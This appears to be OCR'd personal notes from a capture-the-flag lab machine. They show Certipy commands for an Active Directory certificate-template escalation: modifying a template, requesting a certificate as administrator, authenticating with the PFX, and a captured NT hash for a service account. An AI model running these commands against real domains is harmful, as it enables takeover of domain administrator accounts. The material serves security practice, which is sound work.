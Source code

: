 |   |
|---|
|certipy req -u username -p password -dc-ip ip -ca ca -target dc -template template -upn administrator|

certipy auth -pfx administrator.pfx -domain domain -u administrator -dc-ip ip

# what i did

./bin/python3 certipy/entry.py template -k -dc-ip '10.10.11.51' -target 'dc01.sequel.htb' -template 'DunderMifflinAuthentication' 
Certipy v4.8.2 - by Oliver Lyak (ly4k)




[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce


# hash admin

./bin/python3 certipy/entry.py auth -pfx administrator.pfx -domain 'sequel.htb' -u 'Administrator' -dc-ip '10.10.11.51'
Certipy v4.8.2 - by Oliver Lyak (ly4k)





